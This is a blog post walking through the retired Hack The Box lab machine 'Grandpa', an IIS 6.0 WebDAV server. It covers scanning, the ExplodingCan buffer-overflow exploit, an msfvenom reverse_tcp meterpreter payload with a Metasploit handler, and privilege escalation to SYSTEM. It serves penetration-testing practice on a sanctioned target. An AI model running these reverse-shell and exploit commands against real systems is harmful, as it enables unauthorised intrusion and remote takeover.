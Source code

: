 ```yaml
---
layout: post
title: "HTB-Grandpa"
categories: HTB-Walkthrough
---
```


![grandpa1](/assets/img/grandpa/grandpa1.png)


Grandpa is another OSCP-like box from the HTB 'retired' archive.

It's the Buffer Overflow one!

nmap first as always.

<h3>Nmap</h3>

```
nmap -sV -Pn -p- 10.10.10.14 |tee -a gp.txt
```

The results are limited.

```

Nmap scan report for 10.10.10.14
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Scan again, with default nse scripts `-sC`

`nmap -sVC 10.10.10.14`

```

Nmap scan report for 10.10.10.14
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 11 Mar 2020 09:56:45 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h4>IIS 6.0 running WebDAV</h4>


Scan again, this time checking for vulnerabilities with the `vuln` scripts

`nmap -sV --script=vuln 10.10.10.14`

```
Segmentation fault
```

We can crash the server!!!
It could be vulnerable to a `Buffer Overflow`.
 
Before we persue this, lets check out the directories.


<hr width="250" size="6">



<h3>Gobuster</h3>


```
gobuster dir -u http://10.10.10.14 -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 40
```

That was a fast scan.

```

/Images (Status: 301)
/_private (Status: 403)
/_vti_cnf (Status: 403)
/_vti_log (Status: 403)
/_vti_pvt (Status: 403)
/_vti_txt (Status: 403)
/_vti_bin (Status: 301)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/shtml.dll (Status: 200)
/aspnet_client (Status: 403)
/images (Status: 301)

```


`http://10.10.10.14/_vti_bin/shtml.dll`

```
Cannot run the FrontPage Server Extensions on this page: ""
```


`/_vti_bin/_vti_adm/admin.dll`

![admindll](/assets/img/grandpa/gp-admindll.png)



`/_vti_bin/_vti_aut/author.dll`

![authordll](/assets/img/grandpa/gp-authordll.png)


`http://10.10.10.14/images/`

![denied](/assets/img/grandpa/gp-denied.png)


<hr width="250" size="6">


<h3>Searchsploit</h3>


`searchsploit iis 6` returns a long list.


`searchsploit iis 6.0 |grep WebDAV |grep -v '/dos/'` is better.

![searchsploit](/assets/img/grandpa/gp-searchsploit.png)


<hr width="250" size="6">

We can read the exploit with

`searchsploit -x 41738`

Unfamiliar with this exploit, and not wanting to simply swap out the shellcode and fire it off,
I used google to do a bit more research.

[This review](https://www.secarma.com/labs/explodingcan-a-vulnerability-review.html) looks at the vulnerability, and gives
context for the exploit.

It is well worth a read!


<hr width="250" size="6">


Searching again on Google for more info, using the exploit's name `ExplodingCan`, I found [another script](https://github.com/danigargu/explodingcan).

So we now have two versions of essentially the same exploit. We can try them both!



`searchsploit -m 41738` will copy the first exploit to the pwd (present working directory)

```

 searchsploit -m 41738
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
File Type: troff or preprocessor input, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/HTB/vip/grandpa/41738.py

```


<h4>MSFVenom</h4>

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.10 LPORT=443 | tee shellcode
```


copypaste the shellcode to replace the 'poppin-calc' shellcode of the first exploit.

Fire up metasploit

```
service postgresql start
msfconsole
```

Because we used a staged meterpreter payload, we'll need to use the exploit/multi/handler.

```

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.10:443 

```


The first exploit didn't work straight away, so a bit more fiddling may be required; so I take a look at the second.

I copy it from github as explodingcan.py, and read it.

I had used the msfvenom command to produce the file `shellcode`, so the required command to run it is

`python explodingcan.py http://10.10.10.14 shellcode`


![excan-exploit](/assets/img/grandpa/gp-excan-exploit.png)

![meterpreter](/assets/img/grandpa/gp-meterpreter1.png)



<h3>Privilege Escalation</h3>

So we've got a meterpreter shell. The second [exploit](https://github.com/danigargu/explodingcan/blob/master/explodingcan.py) was straight-forward to impliment. 

We need to background the session and look for a path to privilege-escalation.

![post1](/assets/img/grandpa/gp-post1.png)


Select `exploit/windows/local/ppr_flatten_rec`
use `show options` to set the variables.

Get SYSTEM shell.

![system](/assets/img/grandpa/gp-system.png)


Now it's a simple task to get the flags:

```
meterpreter > cat user.txt
bdxxxxxxxxxxxxxxxxxxxxxxxxxxxx69

meterpreter > cat root.txt
93xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b

```


:)


